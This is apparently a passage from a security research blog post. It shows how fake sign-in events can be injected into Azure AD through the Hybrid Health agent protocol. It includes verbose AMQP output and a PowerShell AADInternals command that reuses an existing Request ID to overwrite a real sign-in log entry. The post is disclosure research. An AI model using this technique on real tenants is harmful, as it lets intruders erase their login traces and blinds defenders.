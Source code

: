 ```
VERBOSE: IN: @{Size=5469120; DOFF=23; Extended Header=System.Object[]}
VERBOSE: IN: @{Size=580; DOFF=2; Extended Header=System.Object[]; Type=AQMP Transfer; Channel=0; Handle=2; DeliveryId=0; DeliveryTag=AQAAAEM=; MessageFormat=0; Settled=; More=False; RcvSettleMode=; State=; Resume=; Aborted=; Batchable=True}
VERBOSE: OUT:@{Size=580; DOFF=2; Extended Header=System.Object[]; Type=AQMP Transfer; Channel=0; Handle=2; DeliveryId=0; DeliveryTag=AQAAAEM=; MessageFormat=0; Settled=; More=False; RcvSettleMode=; State=; Resume=; Aborted=; Batchable=True}
VERBOSE: IN: @{Size=17; DOFF=2; Extended Header=System.Object[]; Type=AQMP Detach; Channel=0; Handle=0; Closed=True; Error=}
VERBOSE: OUT:@{Size=17; DOFF=2; Extended Header=System.Object[]; Type=AQMP Detach; Channel=0; Handle=0; Closed=True; Error=}
VERBOSE: IN: @{Size=18; DOFF=2; Extended Header=System.Object[]; Type=AQMP Detach; Channel=0; Handle=1; Closed=True; Error=}
VERBOSE: OUT:@{Size=18; DOFF=2; Extended Header=System.Object[]; Type=AQMP Detach; Channel=0; Handle=1; Closed=True; Error=}
VERBOSE: IN: @{Size=18; DOFF=2; Extended Header=System.Object[]; Type=AQMP Detach; Channel=0; Handle=2; Closed=True; Error=}
VERBOSE: OUT:@{Size=18; DOFF=2; Extended Header=System.Object[]; Type=AQMP Detach; Channel=0; Handle=2; Closed=True; Error=}
VERBOSE: IN: @{Size=15; DOFF=2; Extended Header=System.Object[]; Type=AQMP End; Channel=0; Error=}
VERBOSE: OUT:@{Size=15; DOFF=2; Extended Header=System.Object[]; Type=AQMP End; Channel=0; Error=}
VERBOSE: Closing websocket
```

After 15 min or so, the events appear in the **sign-ins (interactive)** log. And as we can see, we were able to alter also the sign-ins time:

![Fake events](/images/posts/hhealth_10.png)

# Tampering with sign-ins log 

Studying the protocol and the information sent to Azure AD, I noticed that the **Request ID** in the sign-ins is equal to the **UniqueID** of the event.
![UniqueID & Request Id](/images/posts/hhealth_16.png)

This made me wonder what happens if I use an existing **Request ID** as **UniqueID** for the events:
{{< highlight powershell >}}
# Create an event using existing Request ID as UniqueID
$events=@(
    New-AADIntHybridHealtServiceEvent -UniqueID "8d62c873-3d82-48f9-a30b-532be551709c" -Server $agentInfo.Server -UPN "NestorW@contoso.azurelabs.online" -IPAddress "22.22.22.22" -NetworkLocationType Extranet
)
{{< /highlight>}}

It turned out that **the fake event overwrote the existing event!** This allowed threat actors to hide their log-in activities by replacing their log-ins with arbitrary information.
